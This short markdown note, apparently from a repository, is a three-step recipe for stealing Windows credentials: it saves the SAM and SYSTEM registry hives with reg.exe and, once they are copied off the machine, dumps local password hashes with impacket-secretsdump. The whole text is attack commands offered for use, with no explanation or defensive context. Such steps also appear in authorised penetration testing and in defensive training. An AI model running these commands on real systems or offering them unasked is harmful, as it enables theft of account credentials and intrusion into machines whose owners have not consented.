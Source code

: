 # 1.Get Sam
```bash
reg.exe save hklm\sam c:\sam.bak
```

-----------------------

# 2.Get System
```bash
reg.exe save hklm\system c:\system.bak
```

-----------------------

# Once transfered dump hashes
```bash
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```
